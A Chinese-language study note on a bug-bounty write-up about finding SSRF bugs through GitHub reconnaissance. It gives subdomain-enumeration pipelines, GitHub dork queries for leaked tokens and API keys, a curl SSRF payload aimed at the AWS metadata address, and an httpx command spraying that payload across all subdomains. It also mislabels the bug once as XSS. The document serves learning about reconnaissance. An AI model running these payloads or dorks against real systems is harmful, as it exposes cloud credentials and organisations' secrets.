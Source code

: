 # 2022-04-06：Santosh Kumar Sha How Github recon help me to find NINE FULL SSRF Vulnerability with AWS metadata access
## Santosh Kumar Sha (@killmongar1996) Jun 6, 2021
### https://notifybugme.medium.com/how-github-recon-help-me-to-find-nine-full-ssrf-vulnerability-with-aws-metadata-access-531d931413a5
---------------------

這篇不長，稍微看了一下，應該蠻適合我、初學者，多了解怎麼用工具做 recon  
這篇專門拿 `Github` 來 recon  


## TOOLS used for the exploitation
1. Subfinder (https://github.com/projectdiscovery/subfinder)
2. httpx (https://github.com/projectdiscovery/httpx)
3. gau(Corben) — https://github.com/lc/gau
4. waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls

假設目標是 `example.com`，那範圍內的目標就是 `*.example.com`  

作者這樣去找出 subdomain (各工具 pipeline 多少可以避免 miss sub-domain)  
```shell
gau -subs example.com | unfurl domains >> vul1.txt
waybackurls example.com | unfurl domains >> vul2.txt
subfinder -d example.com -silent >> vul3.txt
```

(不是非常懂為什麼要串 `unfurl`)  

最後整合
```shell
cat vul1.txt vul2.txt vul3.txt | sort -u >> unique_sub.txt
```

## Github recon
Github 太多資料了，作者覺得「組織/公司的員工」才是最有機會、有洩漏的地方，所以針對這邊下手  

這樣搜尋 github
```
"testdev.example.com" user:<username> <keytosearch>
"corps.example.com" user:<username> <keytosearch>
"test.example.com" user:<username> <keytosearch>
```

也這樣試過
```
"testdev.admin.example.com" user:<username> auth_token
"testdev.admin.example.com" user:<username> apikey
"testdev.admin.example.com" user:<username> secret
```

不過上面的都沒查到東西，接著作者決定查察 path, endpoints, 像這樣  

```
"corps.example.com" org:<name of organization> "/admin/dashboard"
"testdev.example.com" org:<name of organization> "/users/dashboard"
"example.com" org:<name of organization> "/admin/setup"
```

還是沒東西，接著換
```
"example.com" org:<name of organization> "next_url"
"example.com" org:<name of organization> "img_url"
```
Still no success But when i use these parameter "image"
```
"example.com" org:<name of organization> "image"
```

有找到一個有著這樣的 url
```
/fetch/info?inquiry=&image_Host=https://example.com/user/
```

這就讓作者有興趣，來玩看看這 XSS 了，他用了類似  
```shell
curl -sk "https://example.com/fetch/info?inquiry=&image_Host=http://169.254.169.254/"
```

成功下載了 AWS 一些 internal metadata  

![](https://miro.medium.com/max/408/1*fyzozGKmtkVloJJzaM2izQ.png)  

這個讓他有啟發再多試試  

因為前面已經先把所有 subdomain 搜集好了，所以他隨手這樣嘗試  
```shell
cat unique_sub.txt | sort -u | httpx -silent -path "/fetch/info?inquiry=&image_Host=http://169.254.169.254/" -status-code -content-length
```

最後在同 path、不同的 sub-domain 底下，總共找到 8 個 ssfr  


## others
另外這裡有 repo 有列出可能能 github dorks for recon
- https://github.com/TheBinitGhimire/GitHub-Recon

![](https://github.com/TheBinitGhimire/GitHub-Recon/raw/main/assets/GitHub%20Dorks%20for%20Recon.png)  
![](https://github.com/TheBinitGhimire/GitHub-Recon/raw/main/assets/Sample%20Keywords%20to%20search%20for.png)  
